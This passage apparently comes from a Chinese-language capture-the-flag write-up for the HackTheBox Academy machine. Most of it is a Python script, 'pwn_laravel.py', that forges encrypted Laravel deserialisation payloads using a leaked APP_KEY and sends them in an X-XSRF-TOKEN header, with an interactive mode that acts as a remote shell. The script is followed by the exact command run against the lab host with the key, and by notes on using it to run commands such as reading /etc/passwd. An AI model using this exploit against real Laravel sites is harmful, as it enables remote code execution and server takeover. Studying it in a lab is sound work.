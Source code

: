 ```python=
    payload = base64.b64encode(value)
    iv_base64 = base64.b64encode(cipher.iv)
    hashed_mac = hmac.new(key, iv_base64 + payload, sha256).hexdigest()
    iv_base64 = iv_base64.decode('utf-8')
    payload = payload.decode('utf-8')
    data = { 'iv': iv_base64, 'value': payload, 'mac': hashed_mac}
    json_data = json.dumps(data) 
    payload_encoded = base64.b64encode(json_data.encode()).decode('utf-8')
    return payload_encoded

def extractResponse(resp):
    return resp.split('<!DOCTYPE html>')[0] # Ugly but it works, not as good as regex

def key_handler(signal_received, frame):
    print('Alrighty. Bye!')
    exit(0)

def exploit(url, api_key, cmd, method=1):
    payload = generate_payload(cmd, api_key, method)
    return requests.post(url,headers={'X-XSRF-TOKEN': payload})

def main():
    parser = argparse.ArgumentParser()
    parser.add_argument('URL', help="Lararel website URL to attack")
    parser.add_argument('API_KEY', help="Laravel website API_KEY encoded in base64")
    parser.add_argument('-c','--command', default='uname -a', help="Command to execute in the vulnerable website, if not specfied will send 'uname -a'")
    parser.add_argument('-m','--method', type=int, choices=[1,2,3,4], default=1, help="Indicates the unserialized payload version to use: 1 = Laravel RCE1 (default), 2 = Laravel RCE2, 3 = Laravel RCE3, 4 = Laravel RCE4")
    parser.add_argument('-i', '--interactive', action="store_true", help="Execute commands interactively, it would mimic a tty")
    args = parser.parse_args()
    
    resp = exploit(args.URL, args.API_KEY, args.command, args.method)
    console.print("\n" + extractResponse(resp.text))

    if args.interactive:
        signal(SIGINT, key_handler)
        console.print('[bold yellow] Running in interactive mode. Press CTRL+C to exit.')
        while True:
            cmd = input('$ ')
            if len(cmd) == 0: continue
            resp = exploit(args.URL, args.API_KEY, cmd, args.method)
            console.print(extractResponse(resp.text))

main()
```
- 利用 payload 取得 shell:
`python3 pwn_laravel.py http://dev-staging-01.academy.htb/ 'dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=' --interactive`
加上 --interactive 功能：
    - 建立一個交互式 shell 介面：像在本機一樣輸入命令，例如 whoami、ls、cat /etc/passwd 等。
    - 持續回應：腳本不會只是打一發 payload 就結束，而是會持續維持與目標的連線並回傳輸出。
